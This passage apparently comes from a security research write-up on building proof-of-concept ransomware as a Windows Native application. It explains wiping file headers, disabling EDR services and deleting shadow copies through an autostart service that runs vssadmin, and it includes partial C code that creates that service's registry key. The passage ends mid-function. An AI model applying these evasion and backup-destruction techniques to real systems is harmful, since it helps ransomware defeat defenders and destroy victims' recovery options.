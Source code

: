Our actual ransomware logic is relatively trivial and not that interesting. For a working proof of concept to demonstrate how the approach works, we will use concepts adapted from the Babuk ransomware source code, adjusting it to leverage the Native API interface. Ransomware typically follows the flow of identifying all the drives, performing a depth-first search of each drive, and encrypting each file for each.

We will leverage a queue to perform an iterative depth-first search approach and a second queue to which we will send "work" and the files to be "encrypted." Encryption is the most trivial functionality to implement, so we will just NULL out the file's first minimum(file size, 4KB). Additionally, we will disable EDR services and delete volume shadow copies. We will explore each of these concepts backward.

The Volume Shadow Copy Service (VSS) enables "backing up and restoring critical business data" by creating point-in-time copies of the data and drives to be backed up. There are a number of various Windows command line utilities that enable volume shadow copy (VSC) management: vssadmin, wmic, wbadmin. EDRs as discussed previously will leverage process creation notification callbacks to inspect the command lines of these applications. They can veto and kill the process if it matches one of their signatures. There is additionally a COM/WMI interface. However, as our Native application runs before the Win32 subsystem initialization, we cannot work this way, and our application cannot have any non-Native (NTDLL.dll) imports.

As we cannot call vssadmin.exe successfully before Win32 subsystem initialization, we will "queue" it by registering a new service that runs as LocalSystem and will autostart later in the initialization.

One caveat, however, is that all Services must interact with the SCM to notify it of a successful startup within a certain period, or else they face program termination. To overcome this, we can keep it simple and just leverage cmd.exe /c to execute vssadmin. The termination signal is not propagated to the child process by SCM, so our vssadmin command will not die.

```c
NTSTATUS CreateVssadminDeleteService() {
    NTSTATUS status;
    UNICODE_STRING servicesKeyName, serviceKeyName, valName;
    OBJECT_ATTRIBUTES oa;
    HANDLE hServices, hService;

    RtlInitUnicodeString(&servicesKeyName, L"\\Registry\\Machine\\SYSTEM\\CurrentControlSet\\Services");

    InitializeObjectAttributes(&oa, &servicesKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);
    status = NtOpenKey(&hServices, KEY_CREATE_SUB_KEY, &oa);
    if (!NT_SUCCESS(status)) {
        return status;
    }

    RtlInitUnicodeString(&serviceKeyName, L"\\Registry\\Machine\\SYSTEM\\CurrentControlSet\\Services\\vss-service");

    OBJECT_ATTRIBUTES svcOa;
    InitializeObjectAttributes(&svcOa, &serviceKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    ULONG disposition = 0;
    status = NtCreateKey(&hService,
        KEY_SET_VALUE,
        &svcOa,
        0,
        NULL,
        REG_OPTION_NON_VOLATILE,
        &disposition);

    NtClose(hServices);
    if (!NT_SUCCESS(status)) {
        return status;
    }

```